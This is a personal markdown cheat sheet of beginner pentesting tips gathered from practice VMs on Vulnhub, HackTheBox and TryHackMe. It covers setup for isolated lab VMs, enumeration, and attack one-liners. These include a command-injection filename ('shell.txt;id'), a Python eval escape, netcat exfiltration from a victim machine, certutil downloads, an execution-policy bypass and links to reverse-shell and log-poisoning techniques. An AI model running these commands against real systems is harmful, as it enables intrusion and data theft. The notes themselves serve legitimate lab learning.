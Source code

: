 # Basic pentesting

I am not a professional pentester or something these are just the things that I have learned while doing Vulnerable VMs from websites like [Vulnhub](https://www.vulnhub.com/), [HackTheBox](https://www.hackthebox.eu/), [TryHackMe](https://tryhackme.com/) etc.

### General

* If you have downloaded the VM from Website like Vulnhub or any other website then make sure you run it in `host-only` mode. Even though Vulnhub can be super trusted but still it's good to be paranoid.
    - Most of the VM with `bridged` as their default network setting.
    - Also if you want to be super paranoid then go for NAT setting but I've had issues with some VMs in `NAT` network setting.

* Enumeration is the Key but only till a certain level. Lot of times the way is too guessy, too CTF type and that point `enumeration` doesn't help at all. So if you have done the basics of enumeration like for HTTP service fuzzing, dirsearch etc then don't worry it's totally okay to ask for a damn hint.

### General
* Always take a good look of what you've found
* php file type can be bypassed by php5
* If in a file upload the output is shown meaning it's processing the upload
    - exploit it with command injection in filename like "shell.txt;id"
* Change Static IP
    - `sudo ifconfig vmnet1 10.10.10.11 netmask 255.255.255.0`
* VMware /dev/vmmon not loaded
    - `sudo vmware-modconfig --console --install-all`

* `sudo vmware-modconfig --console --install-all`
    - Fix the issue of vmware modprobe error

* If cracking password for kdbx takes longer time then try finding a key file for it.
* for git repos always check out the git logs

### For linux

* Change host timezone
    - `echo "Asia/kolkata" > /etc/timezone`
    - `dpkg-reconfigure -f noninteractive tzdata`
* Always run dirsearch with extensions
    - `python dirsearch.py -f -e html,php,tar.gz,txt,xml,zip,jpg,png,jpeg -u IP LIST`
* Port knocking with nmap
    - `for x in 066 666 3432; do nmap -Pn --max-retries 0 -p $x 10.10.10.10; done`
    - If you find set of 3 numbers possible options is port knocking
* Transfer with ncat
    - `nc -q1 -lvp 1234 < file` - on victim machine
    - `nc IP 1234> file` - on attackers machine
* use `dig axfr somedomain` to actually find other zone tranfser
    - checkout tempus fugit writeup
* If enum/sudo doesn't do any good.....check for writeable dirs
    - `find / -type d 2>/dev/null`
* LFI to RCE via SSH log poisoning
    - https://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/
* To escape eval in python
    - https://nedbatchelder.com/blog/201206/eval_really_is_dangerous.html
    - `eval("__import__('os').system('ls')#")``

## For Windows

* Reverse shell for windows
    - https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/
    - If you can upload any file then try to upload `nc.exe` and use that.

* To get enumeration file use
    - `certutils -urlcache -split -f URL`
    - when powershell is present
        + `Invoke-WebRequest URL -outfile file`

* Use powerups.ps1 enumeration script
    - https://raw.githubusercontent.com/HarmJ0y/PowerUp/master/PowerUp.ps1
    - Run it with `powershell.exe -ExecutionPolicy Bypass -File .\powersup.ps1`

